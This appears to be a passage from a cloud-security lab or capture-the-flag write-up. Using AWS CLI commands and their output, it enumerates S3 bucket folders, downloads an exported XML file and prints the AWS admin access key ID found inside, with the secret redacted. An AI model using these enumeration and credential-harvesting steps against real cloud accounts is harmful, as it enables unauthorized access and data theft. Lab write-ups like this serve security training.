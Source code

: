 We can confirm that we successfully logged in as `pam-test` user
```
└─$ aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}

```

With this credentials we can list `/admin` directory, but unfortunately can't download anything from it
```
└─$ aws s3 ls s3://dev.huge-logistics.com/admin/
2023-10-16 21:08:38          0 
2024-12-02 20:57:44         32 flag.txt
2023-10-17 02:24:07       2425 website_transactions_export.csv

```


```
└─$ aws s3 ls s3://dev.huge-logistics.com/migration-files/
2023-10-16 21:08:47          0 
2023-10-16 21:09:26    1833646 AWS Secrets Manager Migration - Discovery & Design.pdf
2023-10-16 21:09:25    1407180 AWS Secrets Manager Migration - Implementation.pdf
2023-10-16 21:09:27       1853 migrate_secrets.ps1
2023-10-17 00:00:13       2494 test-export.xml

```

Luckily we can download from `migration-files` directory
```
└─$ aws s3 cp s3://dev.huge-logistics.com/migration-files/test-export.xml .
download: s3://dev.huge-logistics.com/migration-files/test-export.xml to ./test-export.xml
```

Inside we find another AWS key
```
└─$ cat test-export.xml                               
<?xml version="1.0" encoding="UTF-8"?>
<CredentialsExport>
<SNIP>
    <!-- AWS Production Credentials -->
    <CredentialEntry>
        <ServiceType>AWS IT Admin</ServiceType>
        <AccountID>794929857501</AccountID>
        <AccessKeyID>AKIA3SFMDAPOQRFWFGCD</AccessKeyID>
        <SecretAccessKey><REDACTED></SecretAccessKey>
        <Notes>AWS credentials for production workloads. Do not share these keys outside of the organization.</Notes>
    </CredentialEntry>
<SNIP>
</CredentialsExport>

```
